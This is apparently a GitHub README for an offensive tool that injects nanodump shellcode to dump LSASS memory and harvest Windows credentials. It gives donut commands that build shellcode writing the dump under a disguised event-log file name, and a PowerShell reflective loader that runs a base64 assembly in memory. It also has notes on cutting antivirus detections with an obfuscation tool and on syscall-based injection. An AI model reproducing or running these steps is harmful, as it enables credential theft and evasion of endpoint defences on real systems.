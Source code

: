 # sNanoDumpInject 

Minor syscall edit to [@s3cur3th1ssh1t](https://twitter.com/ShitSecure)'s [NanoDumpInject.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/NanoDumpInject.cs) from this [blog post](https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/).  

This repo contains code with donut'ed nanodump. DO NOT RUN random shellcodes inside random 0-star github repos. 

## Credits 

All credits to:
- @s3cur3th1ssh1t, @S4ntiagoP, @rastamouse, @ccob, 
- https://offensivedefence.co.uk/posts/Dynamic-syscalls/ 
- https://github.com/CCob/SharpBlock/blob/master/Program.cs#L37

Original Blog post & code: https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/

## Edits 

Added syscalls for the `Inject()` function. Small project to practice syscalls using DInvoke and creating a small syscall-only DInvoke.

## MISC/TODOs 

- Static Detection for DInvoke usually occurs in DInvoke strings. Use projects like [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) to reduce hits (13 -> 3)

- Learn what this PatchExit function is, and replace with syscalls as well? 

- ~~Using most up-to-date 06/12/2022 nanodump + donut doesn't work - the powershell process will crash upon `NtCreateThreadEx`. Need to find the correct commit for both nanodump + donut, `git reset --hard <hash>`, and retry creating donut'ed nanodump.~~

- Mystery solved, use Linux & MinGW for compiling and using donut + nanodump. Don't use Window's MSVC. The nanodump shellcode with up-to-date nanodump & donut works now!

## Things for myself 
```
# DONT USE WINDOW'S MSVC to compile donut & nanodump 

# use *nix instead!
make -f Makefile.mingw

./donut -i /opt/nanodump/dist/nanodump.x64.exe -b=1 -t -p "--valid --write C:\windows\temp\appevtlog.evtx" -o nano.bin -f 2; cat nano.bin | xclip -sel p
./donut -i /opt/nanodump/dist/nanodump.x64.exe -b=1 -t -p "--valid --write C:\windows\temp\appevtlog.evtx" -o nano.bin -f 2; cat nano.bin | xclip -sel c

# Reflective Loader by S3cur3th1ssh1t
function Invoke-NanoDump
{
<#
    .DESCRIPTION
        Execute NanoDump Shellcode to dump lsass.
        Main Credits to https://github.com/helpsystems/nanodump
        Author: Fabian Mosch, Twitter: @ShitSecure
    #>

Param
    (
        [switch]
        $valid
)

if ($valid)
{
    $choice = 1
}
else
{
    $choice = 2
}
    # Source code here: https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/NanoDumpInject.cs
	$base64binary = "<b64>"
	$RAS = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($base64binary))
    [NanoDumpInject.Program]::Inject($choice)
  
}
```